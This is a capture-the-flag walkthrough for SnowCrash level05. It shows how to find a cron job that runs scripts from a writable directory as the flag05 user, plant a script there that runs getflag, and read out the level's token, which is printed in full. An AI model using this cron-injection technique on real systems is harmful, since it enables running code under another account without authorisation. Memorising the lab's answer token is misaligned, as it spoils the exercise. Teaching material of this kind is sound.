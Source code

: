 # SnowCrash Level05 Guide
This guide will walk you through the process of finding the password for the `flag05` user.

## Procedure:

1. **Examine your environment using Unix commands.**
   
`id` : Shows user and group identities that you have. 
```bash
uid=2005(level05) gid=2005(level05) groups=2005(level05),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level05
```
`ls -la` : Lists files and their permissions in the current directory.
Nothing interesting here.

2. **Check the files belonging to the user flag05**

We are looking at files belonging to the user flag05
```bash
find / -user flag05 2>/dev/null
```
Returns
```bash
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```     
`/rofs` indicates that the file is read-only.

3. **Analyse the script '/usr/sbin/openarenaserver'**

We look at what the file '/usr/sbin/openarenaserver' contains
```bash
cat /usr/sbin/openarenaserver
```
Returns
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
Breaking down the script:
- It loops over all the files in the '/opt/openarenaserver' directory
- Executes the file with bash, with a runtime limited to 5 seconds (ulimit -t 5)
- Deletes the file

4. **Check '/opt/openarenaserver' directory**
We look at the files in the '/opt/openarenaserver' directory
```bash
ls -la /opt/openarenaserver
```
The directory is empty.
We now look for where the script '/usr/sbin/openarenaserver' is executed to execute our own script.

5. **Check the files belonging to the group level05**

We look at the files belonging to the group level05
```bash
find / -group level05 2>/dev/null
```
This returns many files.

6. **Check the files named 'level05'**

We modify the command to see if 'level05' files exist.
```bash
find / -name "level05" 2>/dev/null
```
Returns
```bash
/var/mail/level05
/rofs/var/mail/level05
```

7. **Check '/var/mail/level05' file**

We look at the contents of the file '/var/mail/level05'
```bash
cat /var/mail/level05
```
Returns
```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
It's a cron task that executes the script '/usr/sbin/openarenaserver' every 2 minutes.
A cron task is composed of 6 fields:
- minute (0-59)
- hour (0-23)
- day of the month (1-31)
- month (1-12)
- day of the week (0-7, 0 and 7 are Sunday)
- command to execute
Here the command is 'su -c "sh /usr/sbin/openarenaserver" - flag05'.
- su: command to switch users
- -c: option to pass a command to the user
- "sh /usr/sbin/openarenaserver": command to execute
- -: option to pass the command to the user
- flag05: user to pass the command to
Every 2 minutes, all the files in the '/opt/openarenaserver' directory are executed with the rights of the user flag05, and then deleted.

8. **Check if the cron task is active**

We now check if the cron task is active.
To do this, we will create a script in the '/opt/openarenaserver' directory.
If the cron task is active, then this script should be executed and then deleted.
We create the script '/opt/openarenaserver/test.sh'
```bash
nano /opt/openarenaserver/test.sh
```
Insert
```bash
#!/bin/sh
echo "Test" >> /tmp/test
```
This script adds 'Test' to the file '/tmp/test', creating it if it does not exist.
We give execution rights to the script.
```bash
chmod +x /opt/openarenaserver/test.sh
```
We check if the script has been created correctly.
```bash
ls -la /opt/openarenaserver
```
Returns
```bash
-rwxrwxr-x+ 1 level05 level05 37 XXX test.sh
```
We wait 2 minutes to see if the script is executed.
We check if the script still exists.
```bash
ls -la /opt/openarenaserver
```
The script has been deleted.
We check if the file '/tmp/test' has been created.
```bash
cat /tmp/test
```
Returns
```bash
Test
```
The file has been successfully created.
The cron task is active.

9. **Exploit the cron task**

We will now create a script that executes getflag.
We retrieve the absolute path of the getflag command.
```bash
which getflag
```
Returns
```bash
/bin/getflag
```
Then we create the script '/opt/openarenaserver/test.sh' that executes getflag.
```bash
nano /opt/openarenaserver/test.sh
```
Insert
```bash
#!/bin/sh
/bin/getflag >> /tmp/flag
```
We give execution rights to the script
```bash
chmod +x /opt/openarenaserver/test.sh
```
We check if the script has been created correctly
```bash
ls -la /opt/openarenaserver
```
Then we wait for the script to be executed.
Once the script is executed, we look at the contents of the file '/tmp/flag'
```bash
cat /tmp/flag
```
Returns
```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

Congratulations! We have succeeded in obtaining the token!
We now access level 06.
```bash
su level06
```
